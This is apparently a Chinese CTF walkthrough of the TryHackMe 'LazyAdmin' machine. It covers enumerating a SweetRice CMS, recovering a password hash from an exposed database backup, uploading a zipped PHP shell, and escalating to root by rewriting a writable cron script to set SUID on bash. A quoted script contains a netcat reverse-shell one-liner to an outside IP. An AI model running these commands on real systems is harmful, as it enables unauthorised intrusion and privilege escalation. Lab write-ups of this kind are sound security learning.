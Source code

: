 ```yaml
---
sidebar_position: 6
tags: [Easy, Linux, 信息泄露, 密码破解-哈希, 文件上传, SUDO]
title: LazyAdmin
sidebar_label: LazyAdmin
---
```

# LazyAdmin
## 端口扫描
![20240526224945](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526224945.png)
## 80

进行目录扫描发现一个目录， 进入后发现其是一个 SweetRice CMS 
![20240526225132](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526225132.png)


我们进行目录遍历发现其中存在以下可以内容：

- inc : 网站的源码, 我们发现其中是一个网站源码, 在其中存在一个特殊的文件夹 mysql_bakcup 这是一个数据库备份文件
    ![20240526225142](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526225142.png)
- attachment : 怀疑是上传文件的保存位置
- as : 用户登录
    ![20240526225148](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526225148.png)

我们将 `/inc` 目录中的 mysql_backup 文件下载, 并在其中获取到其中关于用户的消息  `manager:42f749ade7f9e195bf475f37a44cafcb` 密码为加密内容

![20240526225212](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526225212.png)

登录我们的管理界面, 在此我们发现了一个版本号， 我们可以找到对应的漏洞[SweetRice 1.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40716)

在新建文件的位置发现了一个文件上传点

![20240526225231](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526225231.png)

我们尝试上传 php 文件， 但是没有找到上传的文件， 所以可以猜测是做了过滤， 但是我们发现其可以上传 zip 文件， 所以我们将我们的恶意文件打包上传， 并确认attachment 是我们的文件上传的保存位置

![20240526225248](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526225248.png)

## 后渗透

### www-data

访问我们的恶意文件， 来获取 shell

![20240526225303](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526225303.png)

### www-data —> root

我们查看itguy 的家目录， 发现其中存在一个 backup.pl 文件 我们怀疑其是一个备份文件， 我们进行查找

```bash
(remote) root@THM-Chal:/# cat home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
(remote) www-data@THM-Chal:/$ cat /etc/copy.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

我们发现其是一个执行文件， 并且推测其是一个定时脚本程序， 并且发现我们对于 /etc/copy.sh 具有写的权限

```bash
(remote) root@THM-Chal:/# ls -al /etc/copy.sh
-rw-r--rwx 1 root root 32 Aug  4 05:30 /etc/copy.sh
```

我们修改这个文件

```bash
(remote) www-data@THM-Chal:/$ cat << EOF >/etc/copy.sh
> #!/bin/bash
> chmod u+s /bin/bash
> EOF
(remote) www-data@THM-Chal:/$ cat /etc/copy.sh 
#!/bin/bash
chmod u+s /bin/bash
```

之后我们发现我们存在一个 sudo 特权可以执行 backup.pl 文件

```bash
(remote) www-data@THM-Chal:/$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

(remote) www-data@THM-Chal:/$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1109564 Jul 12  2019 /bin/bash
(remote) www-data@THM-Chal:/$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1109564 Jul 12  2019 /bin/bash
(remote) www-data@THM-Chal:/$ /bin/bash -p
(remote) root@THM-Chal:/# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```

## 扩展

### 压缩文件上传-符号链接

在文件上传中存在一个招式为 [文件上传-符号链接](https://blog.guardian-jtz.top/docs/penetration/OWASP%20%20WEB/2#%E7%AC%A6%E5%8F%B7%E9%93%BE%E6%8E%A5) , 经过测试并不可行

### SQL 写入 WEBSHEll

(没有实现成功，理论可以执行)

我们在其中发现一个 SQL  执行控制台我们可以尝试执行 SQL 注入 WEBShell, 但是会报错， 我们可以尝试在系统中进行修改

![20240526225343](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240526225343.png)

### .htaccess

我们发现可以修改 **htaccess 文件，** 所以我们可以尝试将 png 文件解析为 php (但是服务端有限制， 理论可执行)

[.htaccess文件构成的PHP后门_浅笑⁹⁹⁶的博客-CSDN博客](https://blog.csdn.net/qq_36374896/article/details/107005148)

